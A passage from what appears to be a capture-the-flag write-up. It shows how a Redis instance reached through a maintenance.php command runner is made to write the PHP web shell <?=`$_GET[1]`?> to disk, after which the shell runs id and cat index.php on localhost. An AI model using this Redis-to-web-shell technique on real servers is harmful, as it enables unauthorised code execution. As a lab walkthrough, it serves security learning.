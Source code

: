 And just to confirm the url encoding of our shell meant that the value was correctly stored in Redis.

```text
player@8bba634ccf77:~$ curl http://localhost/maintenance.php?cmd="get,shell"
Running: redis-cli --raw -a '<password censored>' 'get' 'set'
<?=`$_GET[1]`?>
```

```text
player@8bba634ccf77:~$ curl http://localhost/maintenance.php?cmd="save"
Running: redis-cli --raw -a '<password censored>' 'save'
OK
```

Assuming that worked, we can now call our PHP web shell!

```text
curl http://localhost/c.php?1=id --output -
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime��_used-mem�p 
 aof-preamble���  shelluid=33(www-data) gid=33(www-data) groups=33(www-data)
example2#We think there's a bug in index.phexample1¬The site is in maintenance mode�?E�=��pl
```

The output seems a bit messed up, and there is a perfectly reasonable explanation for this. See, when we saved the Redis database, it also saved everything else that was stored in it. The fact that we enclosed our webshell with `<?` & `?>` tags just means that that specific section will be interpreted by the PHP interpreter. Everything else will output raw. Heh. (In pure PHP files you can leave out the trailing `?>`, but in this case that would break the shell).

So, to solve the challenge we can just cat the `index.php` file.

```text
ayer@f9bfa34faa14:~$ curl http://localhost/c.php?1=cat%20index.php --output -
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime��_used-mem�p 
 aof-preamble���  shell<?php
# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 
echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see 
if you can figure out what's going on"
?>
example2#We think there's a bug in index.phexample1¬The site is in maintenance mode�?E�=��pl
```
